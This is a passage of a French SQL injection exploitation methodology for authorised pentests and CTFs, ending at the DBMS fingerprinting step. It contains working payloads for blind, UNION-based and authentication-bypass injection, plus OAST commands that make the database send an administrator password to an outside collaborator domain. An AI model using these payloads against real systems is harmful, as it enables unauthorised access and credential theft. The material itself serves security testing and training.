

# SQL Injection — Méthodologie d'exploitation

!!! warning "Cadre légal"
    À utiliser exclusivement en laboratoire, CTF, ou test d'intrusion couvert par une autorisation écrite. Ne jamais tester une variante destructrice (`DELETE`, `DROP`, `UPDATE`) hors d'un environnement isolé ou sans autorisation explicite couvrant ce risque.

## 1. Objectif et périmètre de la méthodologie

L'objectif de cette fiche est de démontrer qu'une entrée utilisateur est concaténée dans une requête SQL sans séparation structurelle entre code et donnée, puis d'escalader cette confirmation vers une exfiltration de données ou un contournement de contrôle d'accès mesurable.

Le comportement de sécurité à démontrer : le SGBD interprète tout ou partie d'une entrée utilisateur comme un fragment de syntaxe SQL plutôt que comme une valeur inerte, permettant à l'attaquant de faire dévier, étendre ou remplacer la logique de la requête d'origine.

**Variantes couvertes par cette fiche**, organisées selon le canal d'observation disponible (du plus direct au plus aveugle) et selon le moment d'exécution :

- **In-Band** : Error-Based (message d'erreur brut exploitable) et UNION-Based (combinaison d'une requête arbitraire à la requête légitime).
- **Inline** : évaluation d'expression arithmétique sur un paramètre numérique non protégé par des guillemets.
- **Blind** : Boolean-Based (divergence de contenu), erreurs conditionnelles (divergence de code HTTP sans détail d'erreur), Time-Based (divergence de délai).
- **Out-of-Band (OAST)** : interaction réseau sortante forcée du SGBD, pour les contextes totalement aveugles sur tous les canaux précédents.
- **Second-Order** : injection stockée sans exécution immédiate, exécutée ultérieurement lors d'une réutilisation non sécurisée de la donnée dans un point distinct de l'application.

Chaque variante cible un canal d'observation différent et doit être testée indépendamment : un échec sur un canal ne permet jamais de conclure à l'absence de vulnérabilité sur les autres, le cours insistant explicitement sur ce point (section « Workflow de diagnostic », règle 8).

**Non couvert par cette fiche** (absent du cours source, à traiter séparément si pertinent) : l'exploitation de privilèges SGBD avancés au-delà de l'OAST (lecture/écriture de fichiers via `LOAD_FILE`/`INTO OUTFILE`, exécution de commandes OS via `xp_cmdshell`), mentionnée indirectement via les procédures système sans développement propre ; les techniques de contournement de WAF autres que l'encodage de mot-clé (le cours ne couvre que ce vecteur précis, section 2.2) ; l'exploitation de SGBD NoSQL ou ORM mal utilisés, hors périmètre du cours qui se limite au SQL relationnel classique.

### Principe de raisonnement

Le cours fournit explicitement un arbre de diagnostic séquentiel, repris ici comme colonne vertébrale de la démarche : on tente d'abord de casser la syntaxe pour obtenir un signal direct (erreur brute) ; si le signal est masqué, on compare systématiquement une condition vraie et une condition fausse sur le canal disponible le plus riche en premier (contenu de page), puis on descend vers des canaux de plus en plus pauvres en information (code HTTP, puis délai, puis interaction réseau) à mesure que chaque canal précédent se révèle inexploitable. À chaque étape, une seule observation ne suffit jamais : le couple condition-vraie/condition-fausse est la seule validation acceptée, un signal isolé pouvant être un faux positif dû à un autre comportement applicatif.

---

## 2. Conditions préalables et état de référence

### 2.1. Prérequis techniques

**Indispensables :**

- Un paramètre, un champ de formulaire ou un en-tête dont la valeur est concaténée dans une requête SQL sans paramétrage (requête préparée) ni validation stricte.

**Fréquents mais non systématiques :**

- Un caractère de terminaison de chaîne (apostrophe) qui, injecté seul, casse la syntaxe — fréquent sur les champs texte, mais absent par construction sur un paramètre réellement numérique casté avant usage (auquel cas le test Inline, section 4, étape 2, reste pertinent).
- L'affichage des messages d'erreur SQL bruts au client — dépend de la configuration de l'environnement (debug actif ou non), à vérifier et non à présumer.
- La réflexion du contenu d'une requête `SELECT` dans le rendu HTML de la page, condition nécessaire à l'exploitation UNION-based mais pas aux autres variantes.

**À vérifier sur la cible, non supposés à l'avance :**

- Le SGBD exact (MySQL/MariaDB, PostgreSQL, SQL Server, Oracle), qui conditionne la syntaxe précise de chaque technique (commentaires, fonctions de délai, tables de métadonnées) — à déterminer par fingerprinting (section 4, étape 9) avant toute exploitation avancée.
- La présence d'un WAF filtrant sur des motifs textuels bruts, et le comportement de décodage de la couche applicative en aval de ce WAF (condition du bypass par encodage, section 4, étape 11).
- Les droits réseau sortants accordés au compte SGBD, condition nécessaire à l'OAST, non garantis en environnement durci.

### 2.2. Établir le comportement normal

Avant tout test, établir une référence précise sur chaque point d'entrée suspecté :

- **Requête de référence** avec une valeur légitime (ex. `?id=1`) : code de réponse (200 attendu), contenu retourné, temps de réponse approximatif (le cours mentionne une référence typique de l'ordre de 80 ms dans son scénario de lab).
- **Comportement sur une valeur invalide anodine** (ex. un identifiant inexistant) : message affiché, code HTTP — distinct du comportement attendu en cas d'injection.
- **Format du paramètre** : entouré de guillemets dans la requête supposée (texte) ou non (numérique), car cela détermine si le test initial doit porter sur la rupture de syntaxe (section 4, étape 1) ou sur l'évaluation d'expression (section 4, étape 2).

Cette référence est indispensable pour distinguer, à chaque étape ultérieure, un comportement normal d'un comportement spécifiquement provoqué par l'injection, et pour disposer d'une mesure de temps fiable avant tout test Time-Based.

---

## 3. Reconnaissance : où rechercher la vulnérabilité ?

### 3.1. Surfaces de test

| Élément à examiner | Pourquoi cette surface est pertinente | Contrôle disponible | Observation initiale | Hypothèse de vulnérabilité | Premier test |
|---|---|---|---|---|---|
| Paramètre d'identifiant dans une clause `WHERE` (`?id=`, recherche, filtre) | Point classique de concaténation d'une entrée dans une clause `WHERE` | Valeur du paramètre | Réponse pour une valeur légitime (un seul résultat) | L'entrée est concaténée sans échappement dans la clause `WHERE` | Injecter une apostrophe seule et observer une erreur ou un changement de réponse |
| Paramètre numérique sans guillemets apparents | Souvent supposé protégé à tort car « numérique » | Valeur du paramètre | Comportement pour la valeur légitime | Le paramètre est concaténé par simple construction de chaîne (`"WHERE id = " + input`) sans caster réellement en entier | Soumettre une expression arithmétique équivalente (`2-1` pour `1`) et vérifier si elle est évaluée |
| Champs `username`/`password` d'un formulaire de connexion | Cible directe pour un contournement d'authentification | Valeur des champs | Comportement avec identifiants invalides connus | La condition d'authentification peut être neutralisée par commentaire ou tautologie | Injecter un commentaire après le nom d'utilisateur supposé exister |
| Paramètre de tri (`?sort=`) alimentant une clause `ORDER BY` | Emplacement structurel souvent négligé car jugé « non risqué », non paramétrable nativement | Valeur du paramètre de tri | Ordre d'affichage pour une valeur légitime | Le nom de colonne ou la direction de tri est inséré sans liste blanche | Injecter une expression conditionnelle (`CASE WHEN...`) et observer si l'ordre d'affichage varie selon la condition |
| En-têtes HTTP journalisés (`User-Agent`, `Referer`, `X-Forwarded-For`) | Souvent oubliés car hors du formulaire principal visible, mais fréquemment insérés dans une requête de journalisation distincte | Contenu de l'en-tête | Comportement de référence avec en-tête standard | Une requête de journalisation distincte (ex. `INSERT INTO logs`) est construite par concaténation, indépendamment du formulaire principal potentiellement bien paramétré | Injecter un payload d'injection classique dans l'en-tête et observer tout changement de comportement, même sur une fonctionnalité sans lien apparent |
| Champs stockés puis réutilisés ailleurs (nom d'affichage, profil, commentaire) | Peut sembler sain au moment de l'enregistrement (paramétré) tout en étant vulnérable à sa réutilisation ultérieure (Second-Order) | Valeur stockée lors de l'enregistrement initial | Comportement normal au moment du stockage (aucune erreur) | Une fonctionnalité distincte relit cette donnée stockée et la réinjecte par concaténation non sécurisée | Stocker un payload d'injection inoffensif en apparence, puis cartographier les fonctionnalités réutilisant cette donnée |

Aucune de ces surfaces n'est nécessairement vulnérable : chacune correspond à un point où une entrée utilisateur rencontre la construction d'une requête SQL, ce qui justifie leur examen systématique, y compris les emplacements structurels et temporellement décalés souvent négligés par un audit superficiel.

### 3.2. Indices et faux positifs

**Observations qui peuvent suggérer la vulnérabilité :**

- Une erreur SQL brute, un code `500` inattendu, ou une anomalie de rendu (page blanche, section tronquée) en réponse à une apostrophe seule.
- Une divergence cohérente et répétée entre une condition construite comme vraie et une condition construite comme fausse (contenu, code HTTP, ou délai).
- Un délai de réponse proportionnel à la valeur de pause injectée (`SLEEP(5)` puis `SLEEP(10)`, par exemple), reproductible sur plusieurs tentatives.

**Observations qui ne suffisent pas à confirmer la vulnérabilité :**

- Une erreur `500` isolée sur l'injection d'une apostrophe : doit être confirmée par le test de double apostrophe (section 4, étape 1), qui écarte un bug applicatif sans rapport avec la syntaxe SQL.
- Un contenu de page qui semble élargi (« tous les produits ») lors d'un seul test « vrai » : ne constitue une preuve que combiné à un test « faux » produisant le résultat inverse — un test isolé peut provenir d'un fallback applicatif sans lien avec l'injection.
- Un délai de réponse plus long une seule fois : peut provenir d'une latence réseau ponctuelle — répéter le test et vérifier la proportionnalité au délai injecté avant de conclure.

**Comportements normaux susceptibles d'être confondus avec la faille :**

- Un code `403 Forbidden` systématique en réponse à un mot-clé SQL en clair : signe d'un WAF actif, pas d'une absence de vulnérabilité sous-jacente — à retester avec un encodage avant de conclure (section 4, étape 11).
- Un traitement asynchrone de l'application (réponse `202 Accepted` immédiate, traitement réel différé) pouvant masquer totalement l'effet d'une injection sur les canaux de contenu et de délai, sans que cela indique une absence de vulnérabilité — seul l'OAST reste pertinent dans ce cas (section 4, étape 6).

**Vérifications complémentaires nécessaires :**

- Toujours valider par un couple de tests opposés (condition vraie et condition fausse) avant de conclure à un signal confirmé, quelle que soit la variante testée.
- Ne jamais conclure à une absence de vulnérabilité sur la seule base d'un test négatif à une étape : chaque étape ne teste qu'une forme d'exploitation particulière, pas l'absence de la faille elle-même.

---

## 4. Séquence de tests : démarche pas à pas

### Étape 1 — Détection In-Band et confirmation par échappement

**Objectif**

Provoquer une rupture de syntaxe SQL pour obtenir la première preuve que l'entrée est concaténée sans échappement.

**Prérequis**

Un paramètre identifié en section 3.1, a priori entouré de guillemets dans la requête supposée (champ texte).

**Hypothèse**

L'entrée est insérée telle quelle entre apostrophes dans l'expression SQL, sans échappement ni paramétrage.

**Action à effectuer**

```http
GET /produit?id=1' HTTP/1.1
```

Si une anomalie apparaît (erreur 500, message d'erreur verbeux, page blanche), confirmer que le comportement est bien lié à la syntaxe SQL et non à un bug applicatif distinct, par un test de double apostrophe (qui forme une chaîne vide syntaxiquement valide) :

```http
GET /produit?id=1'' HTTP/1.1
```

**Observations à examiner**

Code de réponse, message d'erreur (`Unclosed quotation mark...` pour SQL Server, `You have an error in your SQL syntax...` pour MySQL/MariaDB), anomalies de rendu.

**Résultat positif**

L'apostrophe seule casse la page, et la double apostrophe la restaure à la normale : confirme que le paramètre est concaténé sans échappement et que le comportement observé est spécifiquement lié à la syntaxe SQL.

**Résultat négatif ou ambigu**

- Aucune différence avec la référence : soit le paramètre n'est pas concaténé de cette façon (vérifier s'il est numérique, étape 2), soit un échappement ou un filtre est en place (approfondir avec les canaux Blind, étapes 3 à 5).
- Erreur obtenue mais non restaurée par la double apostrophe : le comportement observé n'est probablement pas lié à la syntaxe SQL — traiter comme faux positif et chercher une autre explication.

**Interprétation**

Le couple apostrophe simple/double apostrophe est la validation minimale requise avant de qualifier un signal In-Band comme confirmé : un seul test ne suffit jamais, conformément à la règle 7 du workflow de diagnostic du cours.

**Étape suivante**

Si positif → étape 7 (détermination du nombre de colonnes pour UNION) ou étape 9 (fingerprinting) selon l'objectif. Si négatif sur un paramètre texte → étape 3 (Boolean-Based Blind). Si le paramètre semble numérique sans guillemets → étape 2.

**Erreurs fréquentes**

Conclure à une injection confirmée sur la seule base d'une erreur 500, sans tester la double apostrophe qui écarte les faux positifs applicatifs sans lien avec la syntaxe SQL.

---

### Étape 2 — Test Inline (évaluation d'expression sur paramètre numérique)

**Objectif**

Détecter une injection sur un paramètre numérique non protégé par des guillemets, où une simple apostrophe peut être filtrée ou inopérante.

**Prérequis**

Le paramètre semble purement numérique et l'étape 1 n'a produit aucun signal exploitable.

**Hypothèse**

La requête est construite par concaténation de chaînes sans guillemets autour de la valeur (`"WHERE id = " + input`), rendant le paramètre vulnérable à une évaluation d'expression arithmétique côté SGBD plutôt qu'à une rupture de syntaxe classique.

**Action à effectuer**

```http
GET /produit?id=1 HTTP/1.1
```

puis

```http
GET /produit?id=2-1 HTTP/1.1
```

Si le résultat reste identique au premier test (le produit n°1 s'affiche), confirmer par une expression qui change le résultat attendu :

```http
GET /produit?id=1+1 HTTP/1.1
```

**Observations à examiner**

Contenu affiché pour chaque requête, comparé au résultat attendu si la valeur était traitée comme texte littéral (erreur de conversion ou résultat vide) ou comme expression évaluée (résultat cohérent avec le calcul).

**Résultat positif**

`id=2-1` affiche le produit n°1 et `id=1+1` affiche le produit n°2 : confirme que le paramètre est interprété comme une expression SQL évaluée côté serveur, et non comme un simple entier validé.

**Résultat négatif ou ambigu**

Le comportement est identique quelle que soit l'expression testée, ou une erreur de conversion de type apparaît systématiquement : le paramètre est probablement réellement casté en entier avant usage — passer aux canaux Blind (étapes 3 à 5), un paramètre numérique correctement casté peut rester vulnérable par d'autres vecteurs applicatifs déjà identifiés en 3.1.

**Interprétation**

Ce test prouve qu'un paramètre « numérique » n'est pas protégé nativement dès lors que la requête est construite par concaténation, même sans guillemets autour de la valeur — une hypothèse erronée fréquente côté développement que ce test permet de réfuter concrètement.

**Étape suivante**

Si positif → étape 3 (Boolean-Based) pour confirmer l'exploitabilité complète, ou directement étape 7 si une exfiltration UNION semble possible. Si négatif → étape 3.

**Erreurs fréquentes**

Ne tester qu'une seule expression (`2-1`) sans la confirmer par une seconde expression produisant un résultat différent (`1+1`), risquant de confondre une coïncidence avec une preuve définitive.

---

### Étape 3 — Boolean-Based Blind (divergence de contenu)

**Objectif**

Détecter une injection lorsque l'application ne renvoie ni erreur ni code anormal, mais que son contenu varie selon la véracité d'une condition injectée.

**Prérequis**

Les étapes 1 et 2 n'ont produit aucun signal direct exploitable, ou ce canal est testé en complément pour confirmer une hypothèse déjà posée.

**Hypothèse**

L'application renvoie systématiquement un code `200`, mais le contenu de sa réponse diverge selon que la condition injectée est logiquement vraie ou fausse.

**Action à effectuer**

```http
GET /produit?id=1' OR '1'='1 HTTP/1.1
```

puis, pour validation par opposition :

```http
GET /produit?id=1' AND '1'='2 HTTP/1.1
```

**Observations à examiner**

Nombre et nature des résultats affichés pour chacune des deux requêtes, comparés à la référence (un seul produit).

**Résultat positif**

La condition vraie affiche un résultat élargi (tous les produits) et la condition fausse affiche un résultat vide (zéro produit) : divergence cohérente confirmant une injection Boolean-Based exploitable.

**Résultat négatif ou ambigu**

Les deux requêtes produisent un résultat identique à la référence ou identique entre elles : soit le canal de contenu n'est pas exploitable (passer à l'étape 4, erreurs conditionnelles), soit le paramètre n'est réellement pas vulnérable par ce vecteur — ne pas conclure avant d'avoir testé les étapes 4 et 5.

**Interprétation**

Le cours insiste explicitement sur ce point : un seul test (vrai) ne suffit jamais, car un résultat élargi pourrait provenir d'un comportement applicatif sans rapport (erreur, fallback par défaut) ; c'est la divergence cohérente entre les deux tests opposés qui constitue la preuve fiable.

**Étape suivante**

Si positif → le canal est confirmé comme exploitable, passer à l'extraction caractère par caractère (étape 10) ou au bypass d'authentification (étape 8) selon la cible. Si négatif → étape 4 (erreurs conditionnelles).

**Erreurs fréquentes**

Interpréter un résultat élargi obtenu une seule fois comme une preuve suffisante sans tester la condition fausse en contrepartie.

---

### Étape 4 — Erreurs SQL conditionnelles (divergence de code HTTP)

**Objectif**

Détecter une injection lorsque le contenu de la page ne varie jamais visuellement (masquage total en cas d'erreur, redirection générique), mais que le code de statut HTTP reste un canal disponible.

**Prérequis**

L'étape 3 n'a produit aucune divergence de contenu exploitable.

**Hypothèse**

L'application masque le contenu HTML en cas d'erreur SQL (page générique identique à chaque fois) mais laisse fuiter le code de statut HTTP, typiquement `500` en cas d'exception non interceptée.

**Action à effectuer**

Transformer la comparaison de condition en déclencheur d'exception (division par zéro) :

```http
GET /produit?id=xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a HTTP/1.1
```

puis, pour validation par opposition :

```http
GET /produit?id=xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a HTTP/1.1
```

**Observations à examiner**

Code de statut HTTP pour chacune des deux requêtes (500 attendu pour la condition vraie, 200 pour la condition fausse).

**Résultat positif**

La condition vraie produit un `500` et la condition fausse un `200` : divergence cohérente confirmant un canal d'erreurs conditionnelles exploitable, utile précisément quand le contenu de la page ne varie jamais visuellement.

**Résultat négatif ou ambigu**

Le code de statut reste identique dans les deux cas : ce canal n'est pas exploitable sur cette cible — passer à l'étape 5 (Time-Based) sans conclure à l'absence de vulnérabilité.

**Interprétation**

Ce canal est spécifiquement utile pour les frameworks gérant les exceptions non interceptées par un handler global renvoyant systématiquement un code identique au contenu identique, mais laissant malgré tout transparaître le code de statut.

**Étape suivante**

Si positif → extraction caractère par caractère via ce canal (étape 10, variante erreurs conditionnelles). Si négatif → étape 5 (Time-Based).

**Erreurs fréquentes**

Ne pas tester ce canal intermédiaire et passer directement du Boolean-Based au Time-Based, alors que les erreurs conditionnelles sont moins coûteuses à exploiter (pas de délai artificiel) lorsqu'elles sont disponibles.

---

### Étape 5 — Time-Based Blind (divergence de délai)

**Objectif**

Détecter une injection lorsque ni le contenu ni le code de statut ne varient, en utilisant le temps de réponse comme seul canal disponible.

**Prérequis**

Les étapes 3 et 4 n'ont produit aucun signal exploitable. Une mesure de référence du temps de réponse habituel est disponible (section 2.2).

**Hypothèse**

Une pause conditionnée à une expression toujours vraie produit un délai mesurable par rapport au temps de réponse de référence, le contenu de la réponse restant par ailleurs strictement identique.

**Action à effectuer**

```http
GET /produit?id=1' AND SLEEP(5)-- HTTP/1.1
```

Adapter la syntaxe au SGBD si déjà identifié (`pg_sleep(5)` pour PostgreSQL, `WAITFOR DELAY '0:0:5'` pour SQL Server) ou tester les trois variantes en l'absence de fingerprinting préalable.

Répéter le test 2 à 3 fois pour écarter une latence réseau ponctuelle, et tester une seconde valeur de délai (`SLEEP(10)`) pour vérifier la proportionnalité.

**Observations à examiner**

Temps de réponse mesuré, comparé à la référence et à la seconde valeur de délai testée.

**Résultat positif**

Le délai mesuré est proportionnel à la valeur injectée (~5080 ms pour `SLEEP(5)`, ~10080 ms pour `SLEEP(10)`) et reproductible sur plusieurs répétitions : confirme une injection Time-Based exploitable, dernier recours lorsque l'application ne renvoie strictement aucune information exploitable dans sa réponse.

**Résultat négatif ou ambigu**

- Aucune variation de délai quelle que soit la syntaxe testée : soit le SGBD testé n'est pas le bon (tester les trois syntaxes), soit aucun canal temporel n'est exploitable — passer à l'étape 6 (OAST).
- Délai observé une seule fois, non reproductible : signal à ne pas considérer comme confirmé avant répétition et vérification de proportionnalité.

**Interprétation**

Le canal temporel fonctionne même quand l'application ne renvoie strictement aucune information exploitable, ce qui en fait une extension naturelle du Blind lorsque les canaux de contenu et de code HTTP échouent tous deux, mais c'est aussi la technique la plus lente et la plus susceptible de produire de faux signaux sans répétition suffisante.

**Étape suivante**

Si positif → extraction caractère par caractère (étape 10, variante temporelle). Si négatif → étape 6 (OAST), notamment si un traitement asynchrone de l'application est suspecté.

**Erreurs fréquentes**

Conclure à une injection confirmée après une seule mesure de délai sans répétition ni test de proportionnalité ; ne tester qu'une seule syntaxe de SGBD alors que le moteur cible n'est pas encore identifié.

---

### Étape 6 — Out-of-Band / OAST

**Objectif**

Détecter et confirmer une injection dans un contexte totalement aveugle, où aucun des canaux précédents (contenu, code HTTP, délai) n'est exploitable, typiquement en présence d'un traitement asynchrone.

**Prérequis**

Les étapes 3 à 5 ont échoué, ou un traitement par lot/asynchrone est suspecté (réponse immédiate générique de type `202 Accepted` indépendante du traitement SQL réel). Un service d'écoute externe contrôlé par le testeur (type Burp Collaborator) est disponible.

**Hypothèse**

Le SGBD dispose des droits et fonctions nécessaires pour initier une requête réseau sortante (résolution DNS ou requête HTTP), ce qui peut être forcé par une procédure système ou une fonction réseau native du moteur.

**Action à effectuer**

```sql
-- SQL Server
'; exec master..xp_dirtree '\\a1b2c3.oastify.com\partage'--

-- Oracle
SELECT UTL_INADDR.get_host_address('a1b2c3.oastify.com') FROM dual;
```

Envoyer le payload adapté au SGBD (identifié ou supposé) ciblant le point d'injection, puis consulter l'interface du service d'écoute.

**Observations à examiner**

Réception d'une interaction DNS/HTTP sur le service d'écoute, en particulier l'adresse IP source de cette interaction.

**Résultat positif**

Une interaction est reçue depuis l'adresse IP du SGBD cible (et non celle du poste de l'auditeur) : preuve irréfutable que le payload SQL a été exécuté côté serveur, même en l'absence de toute anomalie dans la réponse HTTP immédiate.

**Résultat négatif ou ambigu**

Aucune interaction reçue : soit la syntaxe ne correspond pas au SGBD réel (tester les variantes propres à d'autres moteurs), soit les droits réseau sortants du compte SGBD sont restreints (environnement durci) — ne pas conclure à l'absence de vulnérabilité, mais documenter l'absence de ce vecteur précis d'exfiltration.

**Interprétation**

L'OAST est la seule technique fiable face à des traitements par lots, des API totalement aveugles, ou des applications normalisant systématiquement leurs réponses pour éviter justement les techniques Boolean/erreurs conditionnelles/Time-Based ; son échec peut néanmoins provenir d'une restriction de droits réseau plutôt que d'une absence de vulnérabilité sous-jacente.

**Étape suivante**

Si positif → étape 6bis (exfiltration directe via OAST) pour une extraction en une seule requête. Si négatif sur toutes les syntaxes testées → documenter l'absence de ce vecteur, l'injection restant potentiellement confirmée par un autre canal testé précédemment.

**Erreurs fréquentes**

Ne tester qu'une seule syntaxe de SGBD pour l'OAST ; confondre une absence d'interaction due à des droits réseau restreints avec une absence totale de vulnérabilité.

---

### Étape 6bis — Exfiltration directe via OAST

**Objectif**

Extraire une donnée sensible en une seule requête via le canal OAST, sans itération caractère par caractère, lorsque l'exécution a été confirmée à l'étape 6.

**Prérequis**

OAST confirmé comme fonctionnel (étape 6).

**Hypothèse**

Une valeur recherchée peut être concaténée dynamiquement au nom de domaine interrogé par le SGBD, faisant transiter la donnée elle-même dans la requête DNS/HTTP observée.

**Action à effectuer**

```sql
-- SQL Server
'; declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.a1b2c3.burpcollaborator.net/a"')--
```

**Observations à examiner**

Contenu exact du sous-domaine interrogé, visible dans l'interface du service d'écoute.

**Résultat positif**

Le sous-domaine interrogé contient la valeur recherchée en clair : extraction confirmée en une seule requête.

**Résultat négatif ou ambigu**

Interaction reçue mais sans préfixe exploitable : la valeur concaténée contient probablement des caractères invalides pour un nom de domaine (longueur excessive, caractères spéciaux) — tronquer ou encoder la valeur avant concaténation selon les contraintes DNS.

**Interprétation**

Cette technique fonctionne même sur des architectures totalement aveugles sur tous les autres canaux, ce qui en fait l'une des plus puissantes en audit avancé, à condition que les droits et fonctions réseau nécessaires soient disponibles côté SGBD.

**Étape suivante**

Documenter l'impact (section 8).

**Erreurs fréquentes**

Tenter de concaténer une valeur trop longue ou contenant des caractères non valides pour un nom de domaine, sans troncature ni encodage préalable.

---

### Étape 7 — Détermination du nombre de colonnes et exfiltration UNION-based

**Objectif**

Exploiter un canal In-Band confirmé pour faire apparaître, dans le rendu habituel de l'application, des données provenant d'une autre table.

**Prérequis**

La page reflète le contenu d'une requête `SELECT` dans son rendu HTML (condition nécessaire, distincte des autres variantes). Un signal In-Band ou Boolean-Based a été confirmé (étapes 1 ou 3).

**Hypothèse**

Le nombre de colonnes et leurs types peuvent être déterminés par itération, permettant ensuite de substituer des données arbitraires à la place des colonnes légitimes.

**Action à effectuer**

Déterminer le nombre de colonnes par incrémentation d'`ORDER BY` jusqu'à erreur :

```http
GET /produit?id=1' ORDER BY 1-- HTTP/1.1
GET /produit?id=1' ORDER BY 2-- HTTP/1.1
GET /produit?id=1' ORDER BY 3-- HTTP/1.1
GET /produit?id=1' ORDER BY 4-- HTTP/1.1
```

Puis identifier les colonnes acceptant du texte par substitution progressive de `NULL` :

```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```

(Ajouter `FROM DUAL` sur Oracle, qui impose une table source même sans `SELECT` depuis une table réelle.)

Enfin, exfiltrer les données réelles via la colonne texte confirmée :

```http
GET /produit?id=1' UNION SELECT NULL, username, password FROM users-- HTTP/1.1
```

Si une seule colonne texte est disponible, concaténer les valeurs recherchées :

```sql
' UNION SELECT NULL, CONCAT(username,':',password), NULL FROM users--
```

**Observations à examiner**

Code d'erreur apparaissant à l'incrémentation d'`ORDER BY` (détermine le nombre de colonnes), position d'affichage de la lettre de test (détermine la colonne texte exploitable), contenu affiché lors de l'exfiltration finale.

**Résultat positif**

La page produit affiche une ligne par enregistrement de la table ciblée, avec les valeurs exfiltrées visibles à l'emplacement habituel des champs légitimes : exfiltration UNION-based confirmée et opérationnelle.

**Résultat négatif ou ambigu**

- Erreur systématique quel que soit le nombre de colonnes testé lors du `UNION SELECT NULL,...` : possible incompatibilité de type entre colonnes — substituer `NULL` un par un par des valeurs de type cohérent (nombre, date) plutôt que du texte systématiquement.
- Aucune colonne n'affiche la lettre de test malgré un `UNION SELECT` accepté sans erreur : la page peut ne pas refléter visuellement le contenu de certaines colonnes (champs non affichés dans le rendu) — vérifier le code source complet de la réponse, pas seulement le rendu visuel.

**Interprétation**

Le succès du `UNION SELECT NULL,...` sans erreur est une étape intermédiaire nécessaire mais non suffisante : il faut encore confirmer quelle colonne est visuellement exploitable avant de tenter l'exfiltration réelle.

**Étape suivante**

Si positif → poursuivre vers l'énumération de structure (étape 9bis) si les noms de tables/colonnes ne sont pas déjà connus, puis documenter l'impact (section 8). Si négatif → vérifier la compatibilité de type colonne par colonne, ou se rabattre sur les canaux Blind (étapes 3 à 5) si l'UNION reste impraticable.

**Erreurs fréquentes**

Tester uniquement `NULL` comme valeur de substitution sans tester un nombre entier ou une date lorsque `NULL` seul provoque une erreur de type sur une colonne strictement typée ; oublier `FROM DUAL` sur Oracle.

---

### Étape 8 — Bypass d'authentification

**Objectif**

Démontrer qu'une authentification peut être contournée sans connaître d'identifiants valides, via neutralisation de la condition de mot de passe.

**Prérequis**

Un signal In-Band ou Boolean-Based confirmé sur le champ `username` ou `password` d'un formulaire de connexion (étapes 1 ou 3).

**Hypothèse**

La requête d'authentification suit le schéma `SELECT * FROM users WHERE username = '...' AND password = '...'`, et un commentaire ou une tautologie injecté dans `username` neutralise la vérification du mot de passe.

**Action à effectuer**

Contournement ciblant un compte connu :

```http
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=administrator'--&password=nimportequoi
```

(sous MySQL, un espace est requis après `--` : `administrator'-- `, ou utiliser `#` qui n'en nécessite pas)

Contournement sans connaître d'identifiant, ciblant la première ligne retournée :

```http
username=' OR 1=1 LIMIT 1--&password=x
```

(`LIMIT 1` propre à MySQL ; utiliser `TOP`/`ROWNUM` ou simplement `' OR 1=1--` sans `LIMIT` sur MSSQL/Oracle selon le comportement de l'application face à un jeu de résultats multiple)

**Observations à examiner**

Code de réponse, redirection vers une zone authentifiée, présence d'un cookie de session, contenu de la page retournée (compte effectivement connecté).

**Résultat positif**

La connexion aboutit sans connaître de mot de passe valide, avec accès effectif à une zone authentifiée : contournement d'authentification confirmé.

**Résultat négatif ou ambigu**

- Échec malgré l'injection acceptée : vérifier la syntaxe de commentaire propre au SGBD cible (espace requis sous MySQL) ; vérifier si le compte ciblé (`administrator`) existe réellement.
- Connexion réussie mais sur un jeu de résultats multiple mal géré par l'application : ajouter `LIMIT 1`/`TOP 1` explicitement pour forcer un résultat unique plutôt que de dépendre du comportement par défaut de l'application face à plusieurs lignes.

**Interprétation**

Le succès dépend à la fois de la syntaxe de commentaire exacte du SGBD et du comportement de l'application face à un jeu de résultats multiple ou unique : un échec peut provenir de l'un ou l'autre facteur, à diagnostiquer séparément.

**Étape suivante**

Documenter l'impact (section 8) si positif. Si négatif → retourner à l'étape 3 (Boolean-Based) pour confirmer que le champ est bien exploitable avant d'ajuster la syntaxe de commentaire.

**Erreurs fréquentes**

Oublier l'espace final après `--` sous MySQL, rendant le commentaire syntaxiquement invalide ; ne pas adapter la syntaxe `LIMIT`/`TOP`/absence de clause selon le SGBD réel.

---

### Étape 9 — Fingerprinting du SGBD

**Objectif**

Identifier le moteur SQL exact pour adapter avec précision la syntaxe des étapes suivantes (énumération, fonctions de délai, commentaires).

**Prérequis**

Un canal exploitable est confirmé (In-Band, Boolean-Based, ou autre), sans que le SGBD exact soit encore connu.

**Hypothèse**

Chaque SGBD expose des fonctions, variables ou tables de métadonnées distinctes, permettant une identification par élimination successive.

**Action à effectuer**

```http
